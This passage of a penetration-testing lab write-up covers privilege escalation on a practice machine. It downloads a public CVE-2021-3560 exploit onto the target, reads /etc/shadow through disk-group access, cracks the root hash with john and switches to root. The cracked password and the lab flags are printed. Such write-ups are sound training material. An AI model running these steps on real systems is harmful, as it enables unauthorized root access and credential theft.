 ## Privilege Escalation vector
- Ran `wget https://raw.githubusercontent.com/UNICORDev/exploit-CVE-2021-3560/refs/heads/main/exploit-CVE-2021-3560.py` to copy exploit onto target
![[Cybersecurity-Resources/images/Pasted image 20241008165101.png]]
- Ran `python3 exploit-CVE-2021-3560.py -u offsec -p pass` to attempt exploit creating user with credentials `offsec:pass`, then failed to install exploit dependency `gnome-control-center`
![[Cybersecurity-Resources/images/Pasted image 20241008165258.png]]
- Ignored further investigation of `CVE-2021-3560`, and attempted escalation through `dora` user being member of `disk` group.
- Ran `df -h` to identify available partitions, and identified `/dev/mapper/ubuntu--vg-ubuntu--lv` as likely partition for Ubuntu OS
![[Cybersecurity-Resources/images/Pasted image 20241008171429.png]]
- Navigated to `/root` and printed `/root/proof.txt`
![[Cybersecurity-Resources/images/Pasted image 20241008171715.png]]
- Ran `cat /etc/shadow` to print password hashes
![[Cybersecurity-Resources/images/Pasted image 20241008172041.png]]
- Copied `root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::` into file and cracked hash with `john` for password `explorer`
![[Cybersecurity-Resources/images/Pasted image 20241008172247.png]]
- Ran `su root` to switch to `root` user with password `explorer`, and ran `ifconfig` to confirm IP address
![[Cybersecurity-Resources/images/Pasted image 20241008172618.png]]
---
# Trophy & Loot
`local.txt` = `3e1616c5b86c3e113681958a619f6794`
`root.txt` = `61b257ef0bcf2110b8c0622b32238ae9`